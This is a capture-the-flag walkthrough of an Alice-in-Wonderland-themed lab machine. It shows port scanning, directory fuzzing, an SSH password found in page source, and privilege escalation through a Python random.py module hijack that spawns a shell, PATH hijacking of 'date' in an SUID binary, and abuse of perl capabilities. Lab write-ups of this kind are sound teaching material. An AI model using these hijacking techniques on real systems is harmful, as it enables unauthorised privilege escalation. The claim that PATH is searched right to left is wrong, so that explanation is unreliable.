## Enumeration
First I will establish nmap scan to discover only open ports.

```bash
 sudo nmap -T4 -Pn 10.112.181.249 -oN 10.112.181.24
```

**Result**

```
Nmap scan report for 10.112.181.249
Host is up (0.068s latency).
Not shown: 983 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

Open HTTP server on port 80. provide this web page.



Fuzzing web directories to discover more web content
```bash
└─$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u "http://10.112.181.249/FUZZ" -fc 404 
```
**Result**
```
#                       [Status: 200, Size: 402, Words: 55, Lines: 10, Duration: 72ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
poem                    [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
```
Fuzzing `/r` directory again found `/a` directory under it
```bash
kali@kali:~/rem$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt:FUZZ -u "http://10.112.181.249/r/FUZZ" -fc 404
```


Continuing to Fuzzing I found that there is URL `http://10.112.181.249/r/a/b/b/i/t/`, Which have this page



reviewing page source code



we found password that is valid for SSH login.

## Initial access



## Privilege escalation
Do some simple manual enumeration I notice that there file inside SUDO lists `sudo -l` .



This file using `random` library to pick up one line from this file and show it. 



The interesting part is we can execute this script with **rabbit** privileges. How we can benefit from this? 
#### Path hijacking
When python searching for library (module) to execute it firstly search inside **current** directory =then=> **Standard library path** =then=> **site packages**. 

So we can easily create file called `random.py` and inject it with python code to have shell with rabbit privileges.

Follow this instructions to have shell with **rabbit** privilege



```shell
echo "import os;os.system('/bin/bash')" > random.py #Create injected file
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpe # execute it with rabbit privileges
```

Installing [LinPEAS](https://github.com/peass-ng/PEASS-ng/releases) inside target machine. first go to writable file usually `/tmp` is writable.



This directory have executable file `teaParty` with SUID.


Using strings tool to this file maybe we can find any readable lines we can benefit with.



message that appear when we run executable appear in strings with `/bin/echo` and `date` . Automatically I will see if  I can  $PATH to see if can I inject code with name `echo` or `date` inside them. Because Linux when running executables it search for it inside every directory inside $PATH from right to left respectively. So we can add inject file inside writable directories before `/bin`



I tried to change both `echo` and `date` but date is the one which have been worked.

Now we have **hatter**'s privileges. Using [LinPEAS](https://github.com/peass-ng/PEASS-ng/releases) again to enumeration we can find we have capabilities with SUID for PERL we can abuse this capability using payload from [GTFObin](https://gtfobins.org/gtfobins/perl/#capabilities)



Use payload 



Rooted ! 
